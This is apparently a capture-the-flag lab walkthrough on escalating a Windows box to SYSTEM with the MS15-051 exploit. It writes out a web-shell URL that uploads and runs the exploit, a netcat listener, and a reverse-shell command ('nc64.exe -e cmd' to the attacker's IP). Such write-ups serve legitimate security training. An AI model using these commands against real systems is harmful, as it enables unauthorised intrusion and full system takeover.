## bit of cheating (ms exploits)

Having prior knowledge that the box is vulnerable to MS15-051

## google MS15-051 proof of concept

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557225209043_image.png)

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557225304544_image.png)

download `MS15-051-KB3045171.zip`  and extract to local directory. Now if this was a real pentest you would download the source file inspect for backdoors and then compile locally before using it on the system.


# Root&Loot
upload MS15-051 file to target:

    10.10.10.9/ippsec.php?fupload=ms15-051x64.exe&fexec=ms15-051x64.exe whoami

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557225763459_image.png)

NT AUTHORITY/SYSTEM

## setup NT Authority/System shell

Listener:

    nc -lvnp 8082

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557227674071_image.png)

Sending to another shell:

    10.10.10.9/ippsec.php?fupload=ms15-051x64.exe&fexec=ms15-051x64.exe "nc64.exe -e cmd 10.10.15.1 8082"

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557227727114_image.png)

(return)

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557227756998_image.png)

## extra tips

If for any reason you do not see hotfixes you can go to the following directory and verify:

    cd \Windows\SoftwareDistribution\Download

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557227866100_image.png)

*temporary location of WSUS updates*
